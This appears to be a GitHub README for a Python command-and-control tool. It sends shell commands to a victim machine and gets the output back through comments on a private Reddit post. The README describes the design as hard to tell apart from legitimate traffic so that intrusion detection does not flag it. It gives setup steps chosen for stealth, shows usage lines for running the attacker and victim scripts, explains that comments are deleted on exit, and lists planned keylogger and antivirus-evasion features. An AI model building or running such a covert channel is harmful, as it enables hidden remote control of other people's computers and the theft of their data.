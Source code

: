 # Python Reddit CnC
A Python based Reddit CnC

## Why Reddit?
I wanted to create a Python based shell that would be very hard to differentiate from legitimate traffic. The first project I made was a Python HTTPS shell that would generate noise to reddit.com but this would still need a self-signed certificate which would cause IDS to trigger on the invalid certificate associated with the displayed domain (reddit.com). After brainstorming for a while and letting colleagues of mine analyze the PCAP, I remembered the Turla CnC which made use of Instagram comments, found the [PRAW](https://praw.readthedocs.io/en/latest/) library and [a Reddit comment bot](https://github.com/yashar1/reddit-comment-bot). The result of all these inspirations is shown in the scripts.

I hope that this tool will prove useful in pentesting, red-teaming, CTF, etc.

## How it works
The attacker creates a subreddit (preferably a private one), this subreddit will serve as the place for the attacker to execute the commands and the victim to post the output of the executed command. This can be summarized as follows:
* Attacker creates a post on the subreddit and notes the ID of this post
* Attacker starts the Reddit CnC with the following parameters: username, password, client-id, client-secret, subreddit and post-id
* The CommandCenter places a "start" string and waits for the "ready" comment of the victim
* When the victim script starts it looks for the "start" string and places a "ready" comment
* The attacker parses the "ready" comment and places the "exec whoami" comment to issue a whoami command to the victim
* The victim responds with "result [user id]"
* The attacker parses the comment by verifying that the comment ID does not exists in the list with parsed comment ID's
* Result gets displayed on the terminal of the attacker

After issuing the "exit" command by the attacker, the victim will delete all the comments in the subreddit's post.

## Requirements
* [Python](https://www.python.org/downloads/)
* [PRAW](https://praw.readthedocs.io/en/latest/) - Python Reddit API Wrapper
* [DNSPython](http://www.dnspython.org/) - Python DNS toolkit
* A **Reddit** account

## Setup
### Reddit
**Setting up the Reddit account details**
* [Navigate to the Reddit Apps page ](https://www.reddit.com/prefs/apps/)
* Click *create an app*
* **name:** Set a name for your app
* **type:** Script
* **description:** Optional
* **about url:** Optional
* **redirect uri:** http://localhost:8080
* Write down the *client id* and *secret*

**Setting up the subreddit**
* [Create a subreddit](https://www.reddit.com/subreddits/create)
* **name:** Set a name for your subreddit
* **title:** Set a title for your subreddit
* **description:** Optional
* **sidebar:** Optional
* **Posttext:** Optional
* **language:** [ko]
* **type:** this can be anything you want, if you want to go for stealth I suggest setting this to "private"
* **content options:** Optional
* **wiki:** Optional
* **spamfilter:** I suggest setting this to low, I have not tested if it deletes comments when issuing a lot of commands
* **other options:** Leave default
* **mobile looks:** really?
* **Press create**

* Create a first post, the content doesn't matter
* Write down the ID of the post displayed in the URL

## Usage
**Attacker**
```sh
$ python reddit_command.py --username [username] --password [password] --client-id [client ID] --client-secret [client secret] --subreddit [subreddit you created] --post-id [ID of the post in the subreddit]
```

**Victim**
```sh
$ python reddit_slave.py --username [username] --password [password] --client-id [client ID] --client-secret [client secret] --subreddit [subreddit you created] --post-id [ID of the post in the subreddit]
```

## Future improvements
* Add keylogger/clipboardlogger option
* Hide the victim script inside an executable with antivirus/endpoint protection/solution evasions

## Acknowlegdements
* Idea based on the [Reddit Comment Bot](https://github.com/yashar1/reddit-comment-bot)

